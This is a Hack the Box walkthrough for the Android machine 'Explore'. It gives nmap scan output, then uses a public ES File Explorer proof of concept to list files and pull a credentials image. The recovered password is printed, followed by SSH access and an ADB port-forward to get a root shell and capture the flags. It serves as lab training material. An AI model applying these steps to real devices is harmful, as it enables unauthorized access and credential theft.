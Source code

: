 ```yaml
---
title: Explore - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Explore.png
---
```

---
title: Explore - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Explore.png
---
---
title: 2024-10-12-Explore - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Explore.png
---
### Scan
```
./nmapAutomator.sh 10.10.10.247 All

Running all scans on 10.10.10.247

Host is likely running Linux
                                                                                                                                                                                             
                                                                                                                                                                                             
---------------------Starting Port Scan-----------------------                                                                                                                               
                                                                                                                                                                                             


PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1



---------------------Starting Script Scan-----------------------
                                                                                                                                                                                             


PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio




---------------------Starting Full Scan------------------------
                                                                                                                                                                                             


PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
45567/tcp open  unknown
59777/tcp open  unknown



Making a script scan on extra ports: 45567, 59777
                                                                                                                                                                                             


PORT      STATE SERVICE VERSION
45567/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```
### Enum
nmap thinks that 59777 is a minecraft server, but having done work with Bukkit in the past, I doubt that's the case. I did research to find out more about the port, and stumbled on ES File Explorer. I'm assuming this is our poe.
Theres a git repo https://github.com/fs0c131y/ESFileExplorerOpenPortVuln.git
we can peruse with `python3 poc.py --cmd list[Files,Pics,etc.] --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.22.00 PM.png)
creds jpg. grab it `python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.23.50 PM.png)
creds ;??![Image](/assets/Screenshot 2024-10-08 at 7.24.22 PM.png) `kristi:Kr1sT!5h@Rp3xPl0r3!`
ssh in `ssh kristi@10.10.10.247 -p 2222`
dir structure ![Image](/assets/Screenshot 2024-10-08 at 7.27.01 PM.png)
Going back to where photo was in `storage/emulated/0` we find user
USER: f32017174c7c7e8f50c6da52891ae250

### Priv Esc
we can see what ports are active with `netstat -tnlp`
we see 5555, which didnt show in our scans. and through research, this is a port for android debugging.
we can reconnect with the port forwarded to our machine using SSH 
`ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222`
![Image](/assets/Screenshot 2024-10-08 at 7.47.55 PM.png)
Then, on our machine again, `apt install adb` will give us the tools to interact with the software
`adb devices`
connect to the forwarded port `adb connect localhost:5555`
Drop a shell there`adb -s localhost:5555 shell`
We can abuse privileges by using `su` and `find / name root.txt 2>/dev/null` to locate the flag.
![Image](/assets/Screenshot 2024-10-08 at 7.48.13 PM.png)
